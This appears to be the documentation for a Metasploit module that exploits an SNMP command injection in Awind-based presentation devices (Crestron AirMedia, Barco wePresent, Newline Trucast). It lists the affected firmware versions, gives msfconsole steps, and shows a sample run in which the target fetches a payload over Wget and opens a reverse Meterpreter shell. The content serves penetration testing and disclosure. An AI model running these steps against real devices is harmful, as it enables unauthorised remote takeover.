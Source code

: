 ## Description

This module exploits a vulnerability found in AwindInc and OEM'ed products where untrusted inputs are fed to `ftpfw.sh` system command, leading to command injection.

Note: a valid SNMP read-write community is required to exploit this vulnerability.

## Vulnerable Devices

The following devices are known to be affected by this issue:

* Crestron Airmedia AM-100 <= version 1.5.0.4
* Crestron Airmedia AM-101 <= version 2.5.0.12
* Awind WiPG-1600w <= version 2.0.1.8
* Awind WiPG-2000d <= version 2.1.6.2
* Barco wePresent 2000 <= version 2.1.5.7
* Newline Trucast 2 <= version 2.1.0.5
* Newline Trucast 3 <= version 2.1.3.7

Other devices might be affected by the same issue but lack of access to firmware forbids me from confirming that. See https://github.com/QKaiser/awind-research for full list of similar devices.

## Verification steps

1. Start `msfconsole`
2. Do: `use exploit/linux/snmp/awind_snmp_exec`
3. Do: `set payload linux/armle/meterpreter/reverse_tcp`
4. Do: `set RHOST [IP]`
5. Do: `set LHOST [IP]`
6. Do: `run`

You should get a session.

## Sample run

``
msf5 > use exploit/linux/snmp/awind_snmp_exec
msf5 exploit(linux/snmp/awind_snmp_exec) > set payload linux/armle/meterpreter/reverse_tcp 
payload => linux/armle/meterpreter/reverse_tcp
msf5 exploit(linux/snmp/awind_snmp_exec) > set RHOSTS 192.168.100.2
RHOSTS => 192.168.100.2
msf5 exploit(linux/snmp/awind_snmp_exec) > set LHOST 192.168.100.1
LHOST => 192.168.100.1
msf5 exploit(linux/snmp/awind_snmp_exec) > check

[*] Target system is Crestron Electronics AM-100 (Version 2.6.0.6)
[+] 192.168.100.2:161 The target is vulnerable.
msf5 exploit(linux/snmp/awind_snmp_exec) > run

[*] Started reverse TCP handler on 192.168.100.1:4444 
[*] Using URL: http://0.0.0.0:8080/u70HALC
[*] Local IP: http://192.168.1.10:8080/u70HALC
[*] Injecting payload
[*] Injection successful
[*] Triggering call
[*] Trigger successful
[*] Client 192.168.100.2 (Wget) requested /u70HALC
[*] Sending payload to 192.168.100.2 (Wget)
[*] Sending stage (806872 bytes) to 192.168.100.2
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 2 opened (192.168.100.1:4444 -> 192.168.100.2:38009) at 2019-03-28 11:01:41 +0100
[*] Server stopped.

meterpreter > sysinfo
Computer     : Crestron.AirMedia-1.1.wm8750
OS           :  (Linux 2.6.32.9-default)
Architecture : armv6l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
``

## References

* https://github.com/QKaiser/awind-research
* https://qkaiser.github.io/pentesting/2019/03/27/awind-device-vrd/
